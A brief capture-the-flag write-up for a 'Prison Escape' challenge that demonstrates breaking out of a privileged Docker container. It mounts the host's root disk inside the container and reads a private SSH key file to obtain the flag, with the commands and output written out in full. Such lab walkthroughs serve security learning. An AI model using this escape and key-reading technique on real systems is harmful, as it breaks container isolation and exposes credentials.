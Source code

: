 
# Objective 6: Prison Escape
**Location: Elfen Ring / Elf House / Prison Escape Terminal**  
**Hints from Bow Ninecandle**

This objective is about getting familiar with breaking out of a docker container if the permissions are not set appropriately.
With the below commands, we determine the root filesystem of the host system and mount it into the Docker container.
That way we can easily get hold of the flag in the private key file.

```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Prison Escape**
